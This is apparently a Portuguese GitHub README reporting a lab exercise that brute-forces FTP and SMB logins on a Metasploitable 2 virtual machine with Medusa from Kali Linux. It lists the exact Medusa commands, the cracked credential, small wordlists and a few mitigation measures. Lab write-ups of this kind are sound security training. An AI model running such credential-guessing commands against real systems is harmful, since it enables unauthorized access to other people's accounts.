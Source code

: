 # kali-medusa-brute-force
Ataque de Brute Force com Medusa em ambiente controlado
# Relatório de Testes de Força Bruta

## Ambiente
- **Atacante:** Kali Linux (192.168.56.102)
- **Alvo:** Metasploitable 2 (192.168.56.101)

## Ataques Realizados

### 1. FTP (Porta 21)
**Comando:** `medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp`
**Resultado:** Credencial comprometida - `msfadmin:msfadmin`

### 2. SMB (Portas 139/445)  
**Comando:** `medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt`
**Resultado:** Credencial comprometida - `msfadmin:msfadmin`

## Medidas de Mitigação
- Implementar políticas de senha complexas
- Limitar tentativas de login
- Usar autenticação de dois fatores
- Monitorar logs de acesso

## Wordlists Utilizadas
- `users.txt`: msfadmin, admin, root, user, test
- `passwords.txt`: msfadmin, password, 123456, admin, test, 1234
